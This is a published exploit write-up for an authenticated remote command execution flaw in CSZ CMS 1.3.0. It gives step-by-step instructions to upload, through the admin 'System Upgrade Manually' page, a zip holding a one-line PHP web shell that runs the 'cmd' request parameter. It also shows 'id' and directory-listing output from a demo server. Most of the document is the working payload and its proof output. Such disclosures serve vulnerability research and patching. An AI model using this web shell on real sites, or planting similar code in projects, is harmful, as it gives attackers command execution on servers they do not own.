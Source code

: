 # CSZ CMS
## CSZ CMS Version 1.3.0 Remote Command Execution

**Exploit Title:** CSZ CMS Version 1.3.0 Remote Command Execution  
**Date:** 23/11/2023  
**Exploit Author:** tmrswrr  
**Vendor Homepage:** [https://www.cszcms.com/](https://www.cszcms.com/)  
**Software Link:** [SourceForge](https://www.cszcms.com/link/3#https://sourceforge.net/projects/cszcms/files/latest/download)  
**Version:** 1.3.0  
**Tested on:** [Softaculous CSZ CMS](https://www.softaculous.com/apps/cms/CSZ_CMS)

## Steps to Reproduce:

1. Enter the admin panel and go to this URL: `https://demos1.softaculous.com/CSZ_CMSqwoqwrdkog/admin/upgrade`

2. Create a zip file using the command:
   ```bash
   zip poc.zip poc.php
   <?php echo "<pre>"; system($_REQUEST['cmd']); echo "</pre>"; ?>
   ```
3. Go to System Upgrade Manually and upload the poc.zip file.
4. Access poc.php via:

    https://demos1.softaculous.com/CSZ_CMSqwoqwrdkog/poc.php?cmd=id
        Output:

   uid=1000(soft) gid=1000(soft) groups=1000(soft)

   https://demos1.softaculous.com/CSZ_CMSqwoqwrdkog/poc.php?cmd=ls

    Output:

      CHANGELOG
      CONTRIBUTING.md
      LICENSE.md
      README.md
      SECURITY.md
      a.php
      assets
      cache.config.inc.php
      config.inc.php
      config_example.inc.php
      corecss.css
      corejs.js
      cszcms
      devtoolsbar.config.inc.php
      env.config.inc.php
      htaccess.config.inc.php
      index.php
      install
      memcached.config.inc.php
      nginx_example.com.conf
      photo
      poc.php
      proxy.inc.php
      redis.config.inc.php
      system
      templates
      test.php
      
      
